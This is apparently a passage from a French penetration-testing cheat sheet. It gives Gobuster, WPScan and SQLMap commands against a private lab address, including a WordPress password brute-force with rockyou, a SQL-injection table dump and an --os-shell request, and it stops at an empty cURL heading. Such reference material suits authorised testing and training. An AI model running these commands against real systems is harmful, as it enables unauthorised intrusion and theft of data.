### Gobuster - Brute-force de répertoires

```bash
# Recherche de répertoires
gobuster dir -u http://192.168.100.20 -w /usr/share/wordlists/dirb/common.txt

# Recherche avec extensions spécifiques
gobuster dir -u http://192.168.100.20 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt

# Recherche de sous-domaines
gobuster dns -d domain.com -w /usr/share/wordlists/dnsmap.txt

# Avec threads et timeout personnalisés
gobuster dir -u http://192.168.100.20 -w wordlist.txt -t 50 --timeout 10s
```

### WPScan - Scanner WordPress

```bash
# Scan basique
wpscan --url http://192.168.100.20/wordpress

# Énumération des plugins vulnérables
wpscan --url http://192.168.100.20/wordpress --enumerate vp

# Énumération des utilisateurs
wpscan --url http://192.168.100.20/wordpress --enumerate u

# Brute-force des mots de passe
wpscan --url http://192.168.100.20/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```

### SQLMap - Exploitation SQL Injection

```bash
# Détection d'injection SQL
sqlmap -u "http://192.168.100.20/page.php?id=1"

# Énumération des bases de données
sqlmap -u "http://192.168.100.20/page.php?id=1" --dbs

# Dump d'une table spécifique
sqlmap -u "http://192.168.100.20/page.php?id=1" -D database -T users --dump

# Obtenir un shell OS
sqlmap -u "http://192.168.100.20/page.php?id=1" --os-shell

# Avec authentification
sqlmap -u "http://192.168.100.20/page.php?id=1" --cookie="PHPSESSID=abc123"
```

### cURL - Client HTTP en ligne de commande
